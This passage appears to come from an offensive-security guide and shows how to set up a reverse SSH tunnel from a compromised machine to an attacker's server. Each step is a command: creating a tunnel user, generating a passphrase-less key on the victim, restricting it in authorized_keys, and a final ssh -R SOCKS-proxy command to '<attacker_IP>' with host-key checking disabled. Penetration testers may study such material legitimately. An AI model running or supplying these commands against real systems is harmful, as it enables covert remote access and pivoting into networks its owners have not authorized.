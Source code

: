 ```
$ ssh -V
```

Create a local that is specifically used for reverse SSH tunneling.

```
$ sudo useradd -m <ssh_user> -s /bin/bash
```

#### 2.3.2 - Generate SSH Key Locally

Create a temp directory.

```
$ mkdir /tmp/keys/
```

Generate an SSH key inside a temporary directory without any passphrase in a compromised system.

```
$ ssh-keygen -qt rsa -b 4096 -f /tmp/keys/id_rsa -C '' -N ''

$ ls /tmp/keys/
id_rsa  id_rsa.pub
```

Copy the SSH key while in the non-interactive shell.

```
$ cat /tmp/keys/id_rsa.pub
```

Paste it in the `authorized_keys` and include restrictions to circumvent security risks. Here's what should we configure:

- The `from=<IP>` should be included with the compromised machine's NAT IP address (must be numeric).
- Nullify all of the commands that is restrictively used for port forwarding with the `command="echo 'Only for port forwarding'`.
- No agent forwarding (`no-agent-forwarding`).
- No X11 forwarding (`no-x11-forwarding`) means no need to interact with GUI applications.
- No PTY allocation (`no-pty`).
- Replace `<ssh_public_key_contents>` from a copied SSH public key.

```
userware@hackware-os:~$ touch ~/.ssh/authorized_keys

userware@hackware-os:~$ cat ~/.ssh/authorized_keys
from="<compromised_system_IP>",command="echo 'Only for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty, <ssh_public_key_contents>

userware@hackware-os:~$ chmod 600 ~/.ssh/authorized_keys
```

Authenticate to the SSH server (the attacker).

```
$ ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o "UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" <username>@<attacker_IP>
```

